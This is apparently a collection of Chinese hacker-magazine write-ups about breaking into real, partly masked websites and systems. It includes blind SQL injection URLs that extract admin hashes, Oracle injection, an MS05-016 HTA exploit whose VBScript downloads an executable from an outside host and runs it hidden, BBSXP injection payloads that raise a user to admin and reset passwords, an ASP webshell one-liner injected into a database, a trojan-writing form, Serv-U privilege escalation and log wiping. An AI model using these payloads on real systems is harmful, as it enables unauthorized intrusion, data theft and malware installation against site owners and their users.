## 第五步

同理，使用类似的 SQL 语句来猜密码长度：提交 `http://www.z*******.com/Article_Print.asp?ArticleID=7 and exists (select id from admin where len(password)<10 and id=1)`，长度小于 10 报错，于是猜小于 20 不报错，再猜小于 15 报错，小于 17 不报错。看出是在 15 和 17 之间，那么长度就是 16 了。

现在，我们知道了“id=1”的管理员用户名长度是 5，密码长度是 16（看到这里我就高兴不起来了，因为长度 16 很可能是由 MD5 进行过加密的），管他呢，先把 MD5 加密后的字符串拿到，再慢慢破解说不定跑得出来。

## 第六步

找出这个用户名！提交 `http://www.z*******.com/Article_Print.asp?ArticleID=7 and 1=(select id from admin where asc(mid(username,1,1))<100 and id=1)`，得到正确页面，如图 9。


这里解释一下，在 IE 地址栏里面输入的 SQL 语言中的 asc 和 mid 这 2 个函数，asc() 是把字符转换为 ASCII 码的函数，比如 asc(name) 就是把 name 转换成 ASCII 码。mid 函数是定位字符串里面的字符，mid 函数的使用格式为 `mid(字符串, 开始位置, 子串长度)`，比如 `mid(name,1,1)`，如果“name=hello123”，那么 `mid(name,1,1)` 就等于 h，`mid(name,2,1)` 就等于 e，而 `mid(name,1,2)` 就等于 he。我们使用的 `asc(mid(username,1,1))` 的意思就是 username 的第一个字符的 ASCII 码，而 `asc(mid(username,2,1))` 是第 2 个字符的 ASCII 码，依此类推。

我们继续猜：`http://www.z*******.com/Article_Print.asp?ArticleID=7 and 1=(select id from admin where asc(mid(username,1,1))<90 and id=1)`，如图 10。


说明第一个字符的 ASCII 码在 90 和 100 之间，于是我们不断缩小范围，猜出用户名第一个字符的 ASCII 码为 97，我用了一个小程序来转换 ASCII 码和字符，如图 11。


我们看出 ASCII 码为 97 的字符是 a。由于我们开始已经知道了这个管理员名字长度是 5，按照刚才的方法把这 5 个字符猜出来是 admin。

## 第七步

猜 admin 的密码（密码用 MD5 加密过，所以只能拿到加密后的密码字符），不过很多论坛的管理员密码没有经过 MD5 进行 Hash 变换，这点动文章系统还做得不错。

同猜用户名一样：`http://www.z*******.com/Article_Print.asp?ArticleID=7 and 1=(select id from admin where asc(mid(password,1,1))<100 and id=1)`，密码串第一个字符 ASCII 码也是 97，然后是体力劳动，猜出 16 位密码每一个字符的 ASCII 码，于是累得差不多了之后得到的 ASCII 序列为“97 57 100 55 50 57 99 50 52 97 98 98 50 97 53 57”，翻译成字符为“a9d739c24abb2a59”，果然是 MD5 变换过的。如果是其他论坛，比如动网，由于存储的密码是明文，现在已经可以以管理员身份登录论坛了，可是动文章这里还有其他步骤。

现在应该拿 MD5 的暴力破解程序用字典来破译这个字符串，当然需要时间，还要取决于管理员的密码复杂程度。

使用 SQL 注入到此为止，好累哦！不打算使用暴力破解，还是想其他办法。

继续上网寻找动文章系统的漏洞。慢慢寻找之后，找到一个动文章泄露物理路径的 asp，于是赶快输入 `http://www.z*******.com/inc/conn.asp`，如图 12。


看看，数据库的本地物理路径完全暴露：`D:\websies\z***...\inc\database\adsfkldfogowerjnokfdslwejhdfsjhk.mdb`。早知道的话就不去使用 SQL Injection 了。先把数据库文件抓回来再说。输入 `http://www.z*******.com/inc/database/adsfkldfogowerjnokfdslwejhdfsjhk.mdb`，把数据库文件下载回来，如图 13。


图13

打开管理页表，如图 14。


图14

看到流浪的酷儿的 IP 是绵阳的，我 mmm 的同学。上面所发现的注入漏洞是由 Article_Print.asp 引起的，建议删除打印功能。

现在网上流行的注入技术大多讲的是 asp+access、asp+mssql 和 php+mysql，很少有讲到 Asp.net 和 Oracle。Asp.net+Oracle 环境下的注入漏洞，可以说还没有人讲过。Asp.net 确实在安全性方面比 asp 有了飞跃性的发展，Oracle 的数据库系统就更不用说了，一向以安全高效、大数据量著称。但是两者加在一起就一定安全了吗？答案肯定是否定的。Asp.net 在编写时如果不注意变量的过滤，也一样会产生像 asp 一样的注入漏洞，让我们挖挖这些站的数据库价值。

前两天发现一个网站采用 Asp.net+Oracle 的构架，在其中发现了注入漏洞，现在就和大家一起分析一下如何利用这个漏洞来猜解网站的管理员密码，使大家明白没有百分之百安全的网站构架，关键在于网页编写者的安全意识。


首先，我们先要找到存在注入漏洞的网页，这里我已经找到了，`http://***/web/(...)/sjcc.aspx?jszgh=00685`，括号里的字母每次登录都是随机生成的。我们现在后面加上“'”试试，返回信息如图 1 所示。

| 姓名 |  |
|---|---|
| 性别 |  |
| 联系电话 |  |
| E-mail地址 |  |
| 学院 |  |
| 系(所) |  |
| 学历 |  |
| 职称 |  |
| 学科方向 |  |

图3

```
http://***/web/(...)/sjcc.aspx?jszgh=00685'and%20<>(select%20count(*)%20from%20all_tables)%20and%20'1'='1'

http://***/web/(...)/sjcc.aspx?jszgh=00685'and%20<>(select%20count(*)%20from%20user_tables)%20and%20'1'='1'

http://***/web/(...)/sjcc.aspx?jszgh=00685'and%20<>(select%20count(*)%20from%20user_tab_columns)%20and%20'1'='1'
```


图1

在图 1 中我们可以找到几个有用的信息，出错信息通过“括号内的字符串没有正确结束”我们几乎可以确定注入漏洞是存在的，还得到了程序所在的物理路径。虽然在我们的猜解过程中没有什么利用价值，但是如果要进行进一步入侵的话，这肯定是一个非常重要的信息。

| 姓名 | 张浩 |
|---|---|
| 性别 | 女 |
| 联系电话 |  |
| E-mail地址 |  |
| 学院 | 外国语学院 |
| 系(所) | 外国语言文学系 |
| 学历 | 本科 |
| 职称 | 讲师 |
| 学科方向 |  |

图2

好，我们继续我们的入侵，继续提交 `http://***/web/(...)/sjcc.aspx?jszgh=00685'and%20'1'='1`，返回如图 2 所示。再提交 `http://***/web/(...)/sjcc.aspx?jszgh=00685'and%20'1'='2`，返回结果如图 3。

比较两个返回结果可以明显地看出注入漏洞的存在，我们可以利用这个页面来提交数据库查询语句。再分别提交猜测 Oracle 的系统表 all_tables、user_tables 和 user_tab_columns 是否存在。all_tables 表里存放了系统的所有表名，user_tables 表里存放了当前用户的所有表名，user_tab_columns 存放当前用户的所有列名。我们后面要猜测用户名密码等敏感信息都要靠这几个系统表，好在全部正常返回了，说明这些表都存在，我们可以继续猜下去。

```
http://***/web/(...)/sjcc.aspx?jszgh=00685'and%20<>(select%20count(*)%20from%20user_tab_columns%20where%20column_name%20like%20'%25码名%25')%20and%20'1'='1'
```

# 一个人的战争

`20'%25PASSWORD%25'%20and%20length(table_name)=5)...（大量 SQL 注入猜解过程与 URL 提交示例，内容围绕 user_tab_columns、PASSWORD、BBKZB、USER 等字段逐步猜解）。文末强调文章目的为提示网站安全意识，并声明数据仅作处理演示、勿用于非法用途。`

## Microsoft Windows MSHTA脚本执行漏洞（MS05-016）

## 测试报告

昨天半夜看到绿盟网站公布漏洞后，作者介绍了对该漏洞的兴趣与初步理解：该问题利用文件关联与执行链，可在用户点击后触发执行，并非单纯依赖文件后缀可见性。

描述：Microsoft HTML Application Host（MSHTA）是 Windows 组件，用于执行 HTA 文件。由于 Windows Shell 在处理应用程序关联时存在远程代码执行风险，攻击者可诱导系统调用 `Application Host` 打开恶意文件并执行其中脚本，进而安装程序、浏览/修改/删除数据或创建高权限账户。

## 漏洞描述

作者引述公开资料说明：漏洞涉及多个 Windows 版本，发布日期为 2005-04-14。

| 分类 | 系统 |
|---|---|
| 受影响系统为以下几种 | Microsoft Windows 2000 SP4；Microsoft Windows 2000 SP3；Microsoft Windows XP SP2；Microsoft Windows XP SP1；Microsoft Windows XP 64-Bit Edition SP1；Microsoft Windows XP 64-Bit Edition 2003（Itanium）；Microsoft Server 2003 for Itanium-based Systems；Microsoft Server 2003 |
| 不受影响系统是 | Microsoft Windows XP Professional x64 Edition；Microsoft Server 2003 x64 Edition；Microsoft Server 2003 SP1 for Itanium-based Systems；Microsoft Server 2003 Service Pack 1 |

进一步解释该漏洞本质是“文件应用程序关联处理异常”：例如本应由 Word 打开的文档被错误交给 MSHTA 处理，若文件含 HTA 代码则会在本地执行，导致安全后果。

## 二、恶意文件构造

作者说明可利用现成生成器构造利用文件，并提到 `Microsoft Windows "MSHTA" Code Execution Exploit (MS05-016)` 工具与样例程序（如 2005016.exe），随后给出运行提示。

# 一个人的战争

这里就是一个生成器了，这个漏洞也没有什么难的，关键就是自己写一个 `test.hta` 而已。我写了一个最简单的 `test.hta` 代码，是下载并运行程序的代码。其实 VBS 的代码完全可以当成 HTA 来用，代码如下：

```vb
<script language=vbscript>
set xpost = createobject("microsoft.xmlhttp")
xpost.open "get","http://www.haiyang.net/safety/x.exe",0  'x.exe是一个转16进制的小程序
xpost.send()
set sget = createobject("adodb.stream")
sget.mode = 3
sget.type = 1
sget.open()
sget.write(xpost.responsebody)
sget.savetofile "x.exe",2
set wshshell=createobject("wscript.shell")
a=wshshell.run("x.exe",0)
</script>
```

好，此时我们再运行 `2005016.exe test.hta lcx.lcx` 这条命令，就会生成 `lcx.lcx` 这个文件，如图2所示。

这里生成 `lcx.lcx` 要注意了，你生成什么文件名无所谓，但后缀不要与系统已有的文件后缀相同。这里我们用的是 `.lcx` 这个后缀，如果你想迅速隐蔽的话，可以生成类似 `.doc` 这样的文档。

## 三、更为隐蔽的构造方式

图3实现的过程是下载并执行，而且运行后会弹出那么大的一个窗口，谁看到了都会发现有问题。这个漏洞让你想起什么来了没有？对，就是那个 Internet Explorer Object Data 漏洞啊。这个漏洞也是调用了 HTA 来执行程序的，想一下当初别人制作这个漏洞时的网页木马用的方法是什么，就是把 exe 变成批处理再执行。

我们现在也这样做一个 `bat.hta`，这个也有现成的工具，我们来借用一下，是木马帝国的 chin 写的一个 `mm.vbs`。用 `mm.vbs` 来生成一个 `bat.hta` 吧，运行过程如图4、图5。

生成的这个 `bat.hta` 本来是一个 ASP 的代码，改成 HTA 后缀就可以直接运行你转的 exe 文件了。如果你不放心，可以去掉转的 `bat.hta` 里的 `<%Response.ContentType="Application/Hta"%>` 这一行代码。你还可以改一下里面的汉字，改改版权。`bat.hta` 的大体代码及我们的注释如下：

```html
<%Response.ContentType="Application/Hta"%>
<!-- 这一行可以去掉，反正HTA语法是很松散的 -->
<hta:application height="0" width="0" caption="no" border="none" showintaskbar="no"></HTA>
<!-- 省略无关的html代码，像<title><head>之类 -->
<script language="JavaScript">
<!-- 也是让窗口最小化了
window.moveTo(0,0);
window.resizeTo(0,0);
//-->
</script>
<script language="VBScript">
<!-- 以下VBS代码调用FSO和Wscript.Shell将16进制的exe代码调用debug还原并执行，释放对象关闭窗口之类 -->
On Error Resume Next

dim WSHshell,fs,a
dim fn_tmp,fn_com,fn_exe
Set WSHshell=CreateObject("Wscript.Shell")
Set fs=CreateObject("Scripting.FileSystemObject")
fn_tmp=fs.GetSpecialFolder(2)&Chr(92)&Right(fs.GetTempName,8)
fn_com=Replace(fn_tmp,".tmp",".com",1,-1,1)
fn_exe=Replace(fn_tmp,".tmp",".exe",1,-1,1)
Set a=fs.CreateTextFile(fn_tmp,1)

a.Write "e100 4D 5A 90 00 03 00 00 00 04 00 00 00 ..." &vbCrLf
...
a.Write "rcx" &vbCrLf
a.Write "5000" &vbCrLf
a.Write "n " & fn_com & vbCrLf
a.Write "w" &vbCrLf
a.Write "q" &vbCrLf
...
WSHShell.Run "command.com /c debug.exe <"&fn_tmp,0,1
WSHShell.Run "cmd.exe /c debug.exe<"&fn_tmp,0,1
...
If fs.FileExists(fn_com)=True Then
  Chg_Run
  Exit Do
End If
...
Sub Chg_Run
  fs.CopyFile fn_com, fn_exe,1
  WSHShell.Run fn_exe
End Sub

fs.DeleteFile fn_tmp,1
fs.DeleteFile fn_com,1
Set fs=Nothing
Set WSHShell=Nothing
...
window.close
//-->
</script>
```

以上代码有骗稿费之嫌，不过也是为了让大家更加明白如何制作一个隐藏的文件。我们现在如图2所示，`2005016.exe bat.hta lcx.lcx` 这样来生成一个 `lcx.lcx`，这时候再双击运行 `lcx.lcx`，图3那个大大的背景框就不见了，只见屏幕白光一闪，`x.exe` 就运行了。

至于如何不闪烁，我想以前关于制作不闪烁的 Internet Explorer Object Data 网页木马思想也很有文章，大家可以找找看。不过，因为我们的文件是本地运行，所以闪得几乎看不到，因此我就没有研究下去。

## 四、漏洞利用及补救措施

我想这个漏洞利用起来比较简单，发一个文件给对方，或将其文件与常用文件格式捆绑，发给对方欺骗对方打开就可以了。不过捆绑方式我一直没有试成功，估计生成的文件不可能在捆绑里执行。大家有捆绑成功的可以告诉我。如果大家想打补丁的话可以去这里：  
`http://www.microsoft.com/technet/security/Bulletin/MS05-016.mspx`  
没有打补丁还是那句老生常谈：不要与陌生人说话，哈哈！

（文章中涉及到的工具 `2005016.exe`、`mm.vbs` 已经收录于本期光盘中）

## 惊天BBSXP的漏洞

职业欠钱

最近又有人爆出了国内一款影响力比较大的论坛 BBSXP 存在 SQL 注入漏洞，可惜大虾们总是爱把漏洞握在手里不放，我们这些小菜只好祈祷哪个好心的大虾能够把漏洞给放出来。终于某日……在某著名黑客网站上发现了该漏洞的利用动画+工具。

抱着顶礼膜拜的心情从该站点上把动画和工具下载了下来，结果动画里只说了那个工具的使用方法：选择“添加上传 asa 设置（dll）”或者“去掉 lfv asa 设置.dat”这两个数据包，然后发送便可以上传 asa 文件了（或者去掉上传 asa 格式），如图1。

也许有菜鸟又要问了：为什么要上传 asa 文件？不是要 asp 的么？这里说一下：因为在 IIS 里，默认的 asa 文件和 asp 文件都是映射到 asp.dll 这个文件（注：并不是所有机器上的 htr 都是由 asp.dll 解释的，有些朋友的机器就是由 ISM.dll 解释的，所以，为了安全起见，使用 cer 或者 cdx 后缀可能会更好些）。所以，把一个 ASP 木马改后缀名为 asa 上传到服务器后效果是一样的（图2）。

有经验的朋友一看就能猜出是数据包搞的鬼，就让我们来看看数据包里到底有什么东西。用记事本打开后发现内容如下：

```http
POST [postpage] HTTP/1.1
Accept: */*
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0; Maxthon)
Host: [hostname]
Content-Length: 165
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: [session]

order=id+DECLARE+@cmd+sysname+set+@cmd%3D0x7c00610073006100+update+clubconfig+set+UpFileGenre%3DUpFileGenre%2B@cmd+select+*+from+%5Buser%5D+order+by+id&Submit=Submit
```

看到这里，手工抓包玩过上传漏洞的朋友可能就很清楚了！前面都是 HTTP 协议发送数据包的格式。文件开头的 `postpage` 是某版面的地址，中间的 `hostname` 是站点地址，而重点就在 `order=id+DECLARE+@cmd...+order+by+id` 这一句了。

```sql
Order=id DECLARE @cmd sysname set @cmd='asa'
Update clubconfig set upfilegenre=upfilegenre+@cmd
Select * from [user] order by id
```

很明显，是 `order` 变量过滤不严的问题。我们带着这个想法来看 `showforum.asp` 这个文件……终于在第146行看到了这么一句：

```vb
sql="select top "&pagesetup&" * from [forum] "&topsql&" order by toptopic Desc,"&order&" Desc"
Set Rs=Conn.Execute(sql)
```

`order` 就这么被拼进 SQL 语句里执行了。那么 `order` 到底有没有经过过滤呢？往上面搜索一下 `order`，很容易在109行找到这么一段：

```vb
if Request("order")<>"" then
    order=HTMLEncode(Request("order"))
else
    order="lasttime"
end if
```

很明显，`order` 是经过 `HTMLEncode` 这个函数过滤了的！但是作者对这个过滤函数有点意见，于是继续追查 `HTMLEncode` 函数。

```vb
function HTMLEncode(fString)
    fString=replace(fString,"'","&#39;")
    fString=server.htmlencode(fString)
    fString=replace(fString,"&#39;","'")
    fString=replace(fString,"&#45;&#45;","--")
    fString=replace(fString,"&#92;","\")
    fString=replace(fString,vbCrLf,"<br>")
    HTMLEncode=fString
end function
```

原来它只是过滤了部分符号，随后又把单引号等恢复出来。由于 MSSQL 支持多语句执行，这样就可以构造 SQL 注射。接着再看文件里的语句拼接逻辑，`order by toptopic Desc,` 后拼接了 `order` 参数。

我们在提交数据包里可以看到这么一句：`select * from [user] order by id`，这一句是用来配对前面的 `Desc`，这样前后都不会出错，剩下的中间就是我们的天下了。

```sql
DECLARE @cmd sysname set @cmd='asa'
Update clubconfig set upfilegenre=upfilegenre+@cmd
```

这便是牛人教我们的构造 SQL 语句：修改 `clubconfig` 表里的 `upfilegenre`，把允许上传的类型里增加 `asa`。明白这个道理后，作者搭建测试环境并进行验证。

```text
http://127.0.0.1/bbsxp/ShowForum.asp?forumid=1&order=id+DECLARE+@cmd+sysname+set+@cmd%3D0x7c00610073006100+update+clubconfig+set+UpFileGenre%3DUpFileGenre%2B@cmd+select+*+from+%5Buser%5D+order+by+id
```

结果正常返回了原页面。于是去发帖上传 asa 文件，提示不允许上传。进入后台发现允许上传类型中确实增加了 asa，继续追踪上传校验代码。

```vb
sub check(typ)
    if instr("|"&UpFileGenre&"|","|"&typ&"|")<=0 or typ="asa" or typ="asp" then
        error2("对不起本服务器不支持"&typ&"格式的文件")
    end if
end sub
```

原来在 `upfile` 文件中强行限制了 asa 类型的文件，真是搞笑！难道 BBSXP 就这么来修补漏洞吗？从图1中相信大家都发现了，asp.dll 解析的类型并非 asa 和 asp 两种而已，还有 cer、cdx、htr。我们只需要把 SQL 语句稍做修改，就可以允许上传 ASP 木马了！而效果还是一样的！

如何修改？这里解释给小菜听，高手不要嫌我啰嗦才是！`0x7c00610073006100` 正好是 `|asa` 的十六进制表示。那么，我们只要把 `htr` 的十六进制弄出来，替换掉它，就可以上传 htr 木马了。

```c
#include <stdio.h>
main()
{
  int i;
  char s[255];
  scanf("%s", s);
  printf("0x");
  for(i=0;i<strlen(s);i++)
    printf("%x00", s[i]);
  printf("\n");
}
```

运行程序得到 `|htr` 的十六进制码为 `0x7c00680074007200`，然后将其替换原 SQL 语句，提交，就可以上传 htr 了（图3）。

研究到这里之后，我和 zj 马上搜索关键字：“Powered by BBSxp 5.1x SQL/Licence”（其中 x 为不定值），结果发现好多站都运行将 `upfile.asp` 文件删除了，即使我们添加了 htr 类型也是枉然，根本就不让上传，能怎么办？

不过转念一想，难道 SQL 漏洞的利用就只有这么一种方式吗？如果能够将自己添加为管理员，并且将后台密码修改为自己指定的密码也是一种方法啊！

```sql
Declare @cmd sysname set @cmd=test
```

```sql
Update [user] set [membercode]=5 where [username]=@cmd
```

这样就可以将用户名为 `test` 的用户提升为社区区长了！当然，这样写是为了好懂，真实环境下我们是按照原来的格式，把其中的空格都用 `+` 代替，而 `test` 则要用十六进制表示，`=` 号用 `%3D`，`[` 和 `]` 则分别用 `%5B` 和 `%5D` 代替。

```text
order=id+Declare+@cmd+sysname+set+@cmd%3D0x...+
Update+%5Buser%5D+set+%5Bmembercode%5D=5+
where+%5Busername%5D=@cmd+select+*+from+%5Buser%5D+order+by+id
```

提交后，成功地将 `test` 用户提升为社区区长。然后发现 BBSXP 不像动网那样后台可以有多用户，而只是在 `clubconfig` 里有一个 `adminpassword` 作为后台密码。

```sql
Declare @cmd sysname
set @cmd=(密码MD5散列的十六进制)
Update [clubconfig] set [adminpassword]=@cmd
```

这句看起来一点语法错误都没有的 SQL 语句却耗掉了我一个下午的时间。仔细对比 `user` 表中的密码才发现 BBSXP 的密码 MD5 散列把所有字母都转换为大写了。

```text
0x4500310030004100440043003300300030...
```

然后用它去填 `@cmd=` 后面的值，并将其他符号替换后，满怀希望地提交，却得到如图4所示的结果。

开始还以为 SQL 语句写错了，结果捣鼓了一下午也没检查出哪里有问题。后来发现 SQL 语句太长了，提交的时候会出错。再实验时发现提交16位都不会出错，于是思路就很清晰了：分两步来做，先把 MD5 的32位散列分成前后两段，各16位。

```sql
Declare @cmd sysname
set @cmd=0x4200450035003600450030003500370046003200300046003800380033004500
update clubconfig set adminpassword=adminpassword+@cmd
```

这里的 `+` 号要用 `%2B` 替换，其他的按前文做就可以了。提交后成功修改后台密码为 `123456`！

要饭的工具里还有一个将允许上传 asa 类型设置去掉的功能。随后还发现一个小诀窍：查看返回信息中的原始 SQL，可以直接看出拼接结果。

```text
update+clubconfig+set+UpFileGenre%3Dsubstring%28upFileGenre%2C1%2Clen%28upfilegenre%29-4%29
```

```text
ShowPage(0,0,"...", "order=id;update clubconfig set UpFileGenre=substring(upFileGenre,1,len(upFileGenre)-4) select * from [user] order by id&search=&TimeLimit=")
```

# 一个人的战争

这句 SQL 语句的意思就是，把 UpFieGenre 修改为原 UpFileGenre 去掉后四个字符后的值。假设原先论坛允许上传类型为：`jpg|doc|rar`，经过设置后变为 `jpg|doc|rar|asa`，现在要还原当然是把 `|asa` 去掉……作者在制作工具时加入了更多类型（如 `asa|cer|cdx|htr`）并讨论了对应利用方式。

文章继续说明上传点与头像路径利用：即使管理员删除 `upfile.asp`，仍可能通过 `upface.asp`、`upphoto.asp` 等位置上传文件；并通过头像真实路径定位到如 `http://localhost/bbsxp/images/upface/2.gif` 的文件位置。


接下来进入后台，找到数据库管理（Access 数据库）相关功能，备份数据库并将备份路径调整到可访问目录，随后进行访问验证。


右栏总结：技术本身门槛并非极高，关键在于理解漏洞原理与利用链路。作者强调应重视基础技术积累，并指出很多利用并不一定需要非常高深的 VB 知识，甚至可通过 HTML 表单 post 等方式完成关键步骤。

## Lis0 & lake2

常在“网”上挂，难免会中“毒”。作者由某杀毒软件官网引出测试过程，讨论网站前后台、`admin` 路径、登录入口及可能的安全薄弱点。


继续在后边加上 `login.asp` 后出现管理登录页面。并提到可通过搜索语法如 `"filetype:asp site:www.target.com inurl:login"` 或 `"filetype:htm site:www.target.com inurl:login"` 辅助定位目标登录入口。


这套 ASP 系统以前倒是从没有见过，难道是这个杀毒软件公司自己写的 ASP 新闻发布系统？但看着又感觉不像！找到关键字去问问百度大叔去。关键字：“第一次使用请在登陆之后注册本系统，只有注册了之后才能拥有所有功能的使用权”，搜索的结果如图 3。


找到了许多，看来有许多网站也用了这个类似的 ASP 系统。是晓宇听幽新闻文章管理系统，名字起得还不错，马上从 www.chinaz.com 下载了这套 ASP 系统的代码。有了代码，我们就好办事了。经过检查源代码，发现这套系统写得太马虎了，ASP 注入过滤不严，前面我们也已经证明了。此套 ASP 系统默认的数据库地址是 `/admin/data/user.asp`。随手去杀毒软件公司的网站上看了一下，数据库是默认的地址（连这个都没有改），更加要命的是这套系统在发布的时候对数据库并没做任何防止被下载的处理。我们访问其数据库得到如图 4 的结果。


当然现在的基本思路是写段代码到数据库 `user.asp` 中。好像 MS 的盖茨大叔曾经说过，用户输入的任何数据都是有害的，像我们这种专门输入有害数据的人，那就更……

我们注册个用户，呵呵，当然我们注册的信息就会写入 `user.asp` 中去，结果呢？美好的毕竟是愿望，无情的却总是现实！网页页面显示无法注册。

后来我和 lake2 分析了这套系统，发现这套 ASP 系统对于登录的系统内不存在的用户会记录在数据库中，可能是为了安全吧，会记录非法登录者。

代码如下：

```asp
xOYUStudioLoginMgs="错误:用户名|密码|验证码错误"
set rs1=Server.CreateObject("adodb.recordset")
sql1="Select * from Logi"
rs1.open sql1,conn,3,3
rs1.addnew
rs1("User")=Request.Form("User")
```

```asp
rs1("CLoginIP")=request.ServerVariables("Remote_Addr")
rs1("OS")=vOS
rs1("ErrorPas")=Request.Form("pwd")
rs1("Result")=Error
rs1.update
rs1.close
```

嘿嘿，这下方便了我们入侵了，如图 5。User: `<%execute request ("b") %>` 密码：test，提交。图 5 中的提交过程希望大家能够看得习惯。


图 6 是数据库变化前的截图，图 7 是数据库变化后的截图。


图片上已经显示得很清楚了，`<%execute request ("b") %>` 成功插入到了数据库中（各位读者也可以试试 `<%eval request ("b")%>`，lake2 的 blog 上有具体的介绍）。使用下面这个客户端连接数据库的地址，然后再写入木马。

```asp
<form action="http://www.../admin/data/user.asp" method=post>
<textarea name=b cols=120 rows=10 width=45>
set IP=server.createObject("Adodb.Stream")
IP.Open
IP.Type=2
IP.CharSet="gb2312"
IP.WriteText request("hackbin")
IP.SaveToFile server.mappath("men.asp"),2
IP.Close
set IP=nothing
response.redirect "men.asp"
</textarea>
<textarea name=hackbin cols=120 rows=10 width=45>...</textarea>
<input type=submit value=提交>
```


保存为 `clent.htm`，在写入木马的时候，我还犹豫了半天。……海阳竟然没有被 kill 掉，还晕 ing，如图 8。


更令人不可思议的是我们放上去的程序或者被杀毒软件称为后门的东西都可以正常运行，实在是狂汗啊！服务端所在的内网资源丰富，如果继续渗透内网的话，也只是时间问题而已，如图 9。


## 后记

总结本次渗透可以说还是很顺利的。作为一个杀毒软件公司，其网站的安全性实在不敢让人恭维……后来经过专门对晓宇听幽新闻文章管理系统的测试发现得到 webshell 的方法还不止一种，使用这套程序的人要注意了。

（文中涉及到的程序 nbsi2、海洋顶端木马、asp、txt、clent.htm 已经收录在本期光盘中）


这个网站服务器的安全性实在是做得不怎么样，ASP 木马竟然可以浏览所有的盘；在系统盘发现了 Serv-U……而且还有 Terminal Services（终端服务），如图 10。

本来以为这样的网站肯定会做什么 IP 限制，至少也应该会有个什么防火墙吧……结果证明这些担心都是多余的。Serv-U 本地溢出成功添加了一个管理员账号，登录终端 3389 上传了截图留个纪念。最后把该擦的都擦了，历史记录千万别忘记清除。

# 被遗忘的利刃

剑心[B.C.T]

在 B.C.T 给大家翻译外国漏洞资料的时候，一个经常出现的漏洞就是 CSS 漏洞，也就是跨站脚本漏洞。在外国的那些漏洞公布站点上对这类漏洞都是十分重视的，但国内却好像对这类漏洞不太重视，以前还听说过一些，最近就听得比较少了，不过有的时候也许还有用得上这把利刃的地方。

上次教一个比我还要菜的朋友 SQL 注入的时候，不小心来到了一个大型医院的网站，顺手在后面添加了一个“admin/”，结果如图 1 所示，这么容易！？我一下子来了兴致，后面的事情更有意思，用啊D工具猜出了登录的路径为“/admin/login.asp”之后，用经典的“'or'='”登录，如图 2，居然成功了。

看登陆后发个提示公告就走人。这么大的站点存在这不疼不痒的漏洞，好多站的管理员都是知道存在漏洞也不补，以为后台的功能有限，入侵者即便进入后台也做不了什么，编写程序的人基于对管理员的信任也就这样放松了警惕。可是当我编写公告的时候有趣的事情发生了，他的公告标题好像没有什么限制，包括长度和内容！忽然想到主页上就有公告的名字跑来跑去的，会不会有什么文章可做呢？马上提交标题为“ddd<dddddddddd……>”，内容随便的公告，如图 4。居然在主页上真的显示了前面的“ddd”，后面的不显示，而且状态栏里出来了个错误的标志，哈哈，支持 html 和 script！继续测试，这次加了个 `<script>alert("test")</script>`，注意，我在 alert() 函数里开始用“'”时出错了，大概是 SQL 的 insert 语句里用的是“'”分隔的缘故，提交后得到的效果如图 5 所示。内容带链接到主页上了，并且没有标题任何过滤，这就是以前的跨站脚本攻击了。不知道我们在标题里填写一些显示为“0”的网页木马的 frame 会怎么样，甚至可以插入以前的公告标题，因为他的长度也没有任何限制的！他的访问量比较大，这样被利用的话可是让客户也让网站名声受损啊！


呵呵，我以为后台会有很多好东西呢，马上激动地跟边上的人吹起了大牛，想着如何上传图片如何备份文件得到 webshell，如何提升权限云云……我亲爱的网吧啊！可是进了后台观察了一下马上心凉了一截。后台的功能异常简陋，只有添加公告、添加新闻，文字页面期待的上传和备份都没有，如图 3。


看来也没有什么好玩的了，以前也遇到过这样的站点，都没有什么好的法子，就像什么服务也不开的主机啊！于是准备随便……


好多入侵者入侵网站都是为了挂木马，其实思路变一下还是可以得到相同的结果的，甚至更为隐蔽。也有人对网站的安全不重视，认为后台简陋就没有什么空子可以钻了，但是光是古老的跨站脚本攻击就可以让一个网站成为恶意网站，实在可怕！不止这个，还有很多的留言本都还存在这样的漏洞，一些站点的后台对管理员的输入不进行任何过滤，这些都会给网络带来隐患，各位站长还尽快重视起安全，对用户的输入过滤掉“<”和“>”等 html 字符，抵御跨站脚本这把快刀吧！文章比较简单，没有什么技术内容，只是说明一些站点存在的问题，对于国内的安全，对比下国外和国内对漏洞的反应就知道了。

# 一个人的战争

## 爱线交友网站大入侵

haJunEcK[F.W.S.T]


网友对我说，有个交友的网站很不错，但是却是要收费的，就要求我帮忙（小编注：这年头，看来收费有罪呀！），哎，其实我是用他的服务器做网站的，没办法了，受人滴水之恩，当以涌泉相报！就权当作是一次安全检测吧！

看首页，爱线社区，是个大型的网站哦，而且是 ASP 程序，好像挺出名的。安全如何呢？有“会员靓照”这个栏目，进去看看有没有 PLMM，呵呵，有会员靓照，当然就有会员上传照片的地方了，这就是我的思路，玩黑的，谁不知道出名的上传漏洞玩修了多少网管呀！

好了，先注册一个免费的用户吧，看看能否通过上传照片那里上传一个 ASP 木马，来获得 webshell。看看在注册那里，果然有一栏，是上传会员照片的，如图 1。

获得 cookie，上传的地址，然后选择 ASP 木马，上传，看看返回结果（图 3）：

```html
<html>
<head>
<title>文件上传</title>
</head>
<body bgcolor=#e8f4ff>
<script>
parent.document.forms[0].Submit.disabled=false;
parent.document.forms[0].Submit2.disabled=false;
</script>
```


先试试有没有过滤上的漏洞吧，直接上传一个 ASP 木马，当然不行了。不然程序员就都不用混了，不过，这里出现了我们很常见的东西哦：“请先选择你要上传的图片［重新上传］”，如图 2。

这个好办了，可以像动网上传漏洞一样轻松地解决了。拿出老兵的上传工具、抓包工具，然后做着以往熟悉的动作，抓包——

上传失败，难道漏洞已经被管理员补上了，禁止所有的上传？不可能啊，如果是那样的话，那些会员的照片又是怎么上传的呢？为了测试，我把一个相片上传了上去，出现了这样的结果，“图片上传成功，24小时内审核后显示：westuploadFace/2005451750231.gif”。原来管理员做了相应的防范措施了。好了，继续我们的入侵探索，这里不行，就跳转到其他的方向吧。再回到首页看看，发现了一个论坛，搬搬运气了，来到论坛，随手在网站论坛的后面加上了 `upfile.asp`，看是否还存在漏洞？居然出现了这个显示（图 4）：


看来论坛上也有漏洞哦，普通的上传漏洞，赶紧拿出工具再试上传，今天运气不好，返回结果：


又失败了，跟第一次注册会员时上传会员照片一样，被管理员做过手脚了……在论坛网址后面加上 `data/dvbbs7.mdb`、`databackup/dvbbs7.mdb`、`data/dvbbs7.asp` 等路径逐个尝试……


这下就好办了，立即下载数据库，如图 6。


